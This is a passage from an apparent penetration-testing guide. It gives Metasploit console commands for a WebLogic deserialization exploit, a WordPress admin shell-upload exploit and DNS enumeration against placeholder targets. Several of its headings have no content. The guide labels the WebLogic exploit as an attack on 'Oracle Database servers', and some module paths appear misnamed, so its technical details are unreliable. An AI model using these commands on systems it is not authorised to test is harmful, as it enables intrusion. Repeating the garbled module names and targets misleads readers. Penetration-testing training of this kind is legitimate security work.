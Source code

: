### 2.2.6.4 For Oracle Database:
* Metasploit Module: exploit/windows/oracle/weblogic_deserialize
* Command:
```
use exploit/windows/oracle/weblogic_deserialize
set RHOSTS <target_ip>
exploit
```
* Options:
* RHOSTS: Specifies the target IP address of the Oracle Database server.

This command will initiate the Oracle WebLogic Deserialization exploit targeting Oracle Database servers.

### 2.2.6.5 For WordPress:
* Metasploit Module: exploit/unix/webapp/wp_admin_shell_upload
* Command:
```
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS <target_ip>
exploit
```
* Options:
* RHOSTS: Specifies the target IP address of the WordPress site.

This command will initiate the WordPress Admin Shell Upload exploit targeting WordPress sites.

Adjust the RHOSTS option to specify the target IP address accordingly for each exploit. These commands will help demonstrate the exploitation of vulnerabilities specific to each target platform.

### 2.3 Open Source Intelligence (OSINT) Gathering

### 2.4 Social Engineering Reconnaissance

### 2.5 Tools and Methods for Reconnaissance

## 3. Footprinting
### 3.1 Domain Name System (DNS) Footprinting
* Metasploit Module: auxiliary/gather/dns_enum
* Command:
```
use auxiliary/gather/dns_enum
set DOMAIN <target_domain>
run
```
* Options:
* DOMAIN: Specifies the target domain name for DNS enumeration.

This command will initiate DNS enumeration using Metasploit, where the tool will gather information about the target domain's DNS records, such as hostnames, IP addresses, mail servers, and more.
